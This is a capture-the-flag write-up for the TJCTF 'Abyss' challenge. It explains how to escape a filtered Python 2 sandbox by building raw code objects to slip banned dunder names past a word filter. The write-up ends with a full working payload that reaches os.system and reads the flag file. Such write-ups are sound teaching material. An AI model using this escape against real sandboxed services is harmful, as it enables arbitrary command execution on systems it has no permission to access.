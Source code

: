 ```yaml
---
title: tj18 Abyss
---
```


*Written by nthistle*
#### Problem Statement

If you stare into the abyss, the abyss stares back.

`nc problem1.tjctf.org 8006`

#### Observations

The first observation is that this is a Python environment. 

However, further experimentation reveals that all our errors are eaten up with a cute message.
```
>>> blahblop
The Abyss consumed your error.
```

<!--more-->

Furthermore, some words seem to be banned. 
```
>>> ().__class__
Sorry, '__class__' is not allowed.
>>> lol__class__lol
Sorry, '__class__' is not allowed.
>>> __clas__
Sorry, '__' is not allowed.
```

It seems there is a word filter. We can't have certain strings in our code. In particular, "\_\_" is banned.

We would like to use solution #4 from [here](https://github.com/lucyoa/ctf-wiki/tree/master/pwn/python-sandbox). 
```
classes = {}.__class__.__base__.__subclasses__()
b = classes[49]()._module.__builtins__
m = b['__import__']('os')
m.system("test")
```

Unfortunately, we can't type out "\_\_class__". "exec" and "eval" are also banned. 

#### Solution
Googling for "CTF Python Jailbreak", we eventually come accross this [article](https://blog.delroth.net/2013/03/escaping-a-python-sandbox-ndh-2013-quals-writeup/).

>Enter code objects. Python functions are actually objects which are made of a code object and a capture of their global variables. A code object contains the bytecode of that function, as well as the constant objects it refers to, some strings and names, and other metadata (number of arguments, number of locals, stack size, mapping from bytecode to line number). You can get the code object of a function using myfunc.func_code. This is forbidden in the restricted mode of the Python interpreter, so we can’t see the code of the auth function. However, we can craft our own functions like we crafted our own types!

```
ftype = type(lambda: None)
ctype = type((lambda: None).func_code)
f = ftype(ctype(1, 1, 1, 67, '|\x00\x00GHd\x00\x00S', (None,),
                (), ('s',), 'stdin', 'f', 1, ''), {})
f(42)
# Outputs 42
```

This lets us bypass the word filter!

In particular, "ctype" lets us assemble arbitary functions. 

This [answer](https://stackoverflow.com/a/6613169/10178580) from StackOverflow gives us the arguments for the function ctype. 

This function prints out the arguments we need. 
```
#a is a function
def bash(a):
  print(a.func_code.co_argcount)
  print(a.func_code.co_nlocals)
  print(a.func_code.co_stacksize)
  print(a.func_code.co_flags)
  print(repr(a.func_code.co_code))
  print(repr(a.func_code.co_consts))
  print(repr(a.func_code.co_names))
  print(repr(a.func_code.co_varnames))
  print(repr(a.func_code.co_freevars))
  print(repr(a.func_code.co_cellvars))
```

With our function 
```
get_classes():
  return {}.__class__.__base__.__subclasses__()
```
we get 
<pre>
0 
0
1
67
'i\x00\x00j\x00\x00j\x01\x00j\x02\x00\x83\x00\x00S'
(None,)
('__class__', '__base__', '__subclasses__')
()
()
()
</pre>

Plugging these into the previous example, we get
```
get_classes = ftype(ctype(0, 1, 2, 67, 'i\x00\x00j\x00\x00j\x01\x00j\x02\x00\x83\x00\x00S', (None,),("_"+"_class_"+"_","_"+"_base_"+"_","_"+"_subclasses_"+"_"), (), 'stdin', 'f', 1, ''), {})
```

Running this on the interpreter, we see that it works. 

We want `warnings.catch_warnings`, and a little bit of manual searching gives us index 59.
```
warnings = get_classes()[59]()
```

Next, we need to get the property `_module` of warnings. We use the same trick as before. 

```
getModule = ftype(ctype(1, 1, 1, 67, '|\x00\x00j\x00\x00S', (None,),("_"+"module",), ("warnings",), 'stdin', 'f', 1, ''), {})
```

Now,
`module = getModule(warnings)`

<pre>
>>> dir(module)
['WarningMessage', '_OptionError', '__all__', '__builtins__', '__doc__', '__file__', '__name__', '__package__', '_getaction', '_getcategory', '_processoptions', '_setoption', '_show_warning', 'catch_warnings', 'default_action', 'defaultaction', 'filters', 'filterwarnings', 'formatwarning', 'linecache', 'once_registry', 'onceregistry', 'resetwarnings', 'showwarning', 'simplefilter', 'sys', 'types', 'warn', 'warn_explicit', 'warnpy3k']
</pre>

We have access to sys! 

Now we can get access to os.
`os = module.sys.modules["os"]`

Running `os.system("ls")` and then `os.system("cat flag.txt")` finishes the problem.


#### Code
```
ftype = type(lambda: None)
ctype = type((lambda: None).func_code)
get_classes = ftype(ctype(0, 1, 2, 67, 'i\x00\x00j\x00\x00j\x01\x00j\x02\x00\x83\x00\x00S', (None,),("_"+"_class_"+"_","_"+"_base_"+"_","_"+"_subclasses_"+"_"), (), 'stdin', 'f', 1, ''), {})
warnings = get_classes()[59]()
getModule = ftype(ctype(1, 1, 1, 67, '|\x00\x00j\x00\x00S', (None,),("_"+"module",), ("warnings",), 'stdin', 'f', 1, ''), {})
module = getModule(warnings)
os = module.sys.modules["os"]
os.system("cat flag.txt")
```
